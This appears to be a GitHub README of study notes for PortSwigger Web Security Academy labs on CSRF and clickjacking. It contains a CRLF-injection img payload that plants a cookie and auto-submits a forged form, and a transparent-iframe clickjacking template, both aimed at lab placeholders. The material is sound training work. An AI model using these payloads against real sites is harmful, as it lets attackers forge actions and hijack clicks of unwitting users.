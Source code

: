 <h1 align="center">Portswigger</h1>
<p align="center">This page is about portswigger.net</p>

See more:

https://portswigger.net/web-security

## Variations of Cross-site request forgery (CSRF)
* CSRF where token validation depends on request method
* CSRF where token validation depends on token being present
* CSRF where token is not tied to user session
* CSRF where token is tied to non-session cookie
* CSRF where token is duplicated in cookie
* CSRF where Referer validation depends on header being present
* CSRF with broken Referer validation

### CSRF where token is tied to non-session cookie
#### Two actions in just one open

Adversaries craft a web form with some values and inject a cookie that's is related to those values given. But the adversaries need to do that in just one step.

Find a place in the website that returns something, add the link in the "src" atributte of a _img_ tag with a Set-Cookie instructions to inject a cookie in the victim's browser. Then make a submit of the form through _onerror_ atributte.

```html
<img src="https://URL/?search=test%0D%0ASet-Cookie:%20csrfKey=YOUR-KEY%3b%20SameSite=None" --action #1 - inject a needed cookie
  onerror="document.forms[0].submit()"> -- action #2 - submit
```
As the content of "src" attribute is invalid (it set a cookie on client's browser), the content of "onerror" (a submit) will execute in sequence.

%3B = ";"

##### With CRLF (%0D%0A) Injection: 

_When a browser sends a request to a web server, the web server answers back with a response containing both the HTTP response headers and the actual website content, i.e. the response body. The HTTP headers and the HTML response (the website content) are separated by a specific combination of special characters, namely a carriage return and a line feed. For short they are also known as CRLF (%0D%0A). The web server uses the CRLF to understand when new HTTP header begins and another one ends._

See more: https://book.hacktricks.xyz/pentesting-web/crlf-0d-0a

## Clickjacking

```html
<style>
    iframe {
        position:relative;
        width:750px;
        height: 550px;
        opacity: 0.1
        z-index: 2;
    }
    div {
        position:absolute;
        top:500;
        left:60;
        z-index: 1;
    }
</style>
<div>Test me</div>
<iframe src="YOUR-LAB-ID.web-security-academy.net/my-account"></iframe>
```
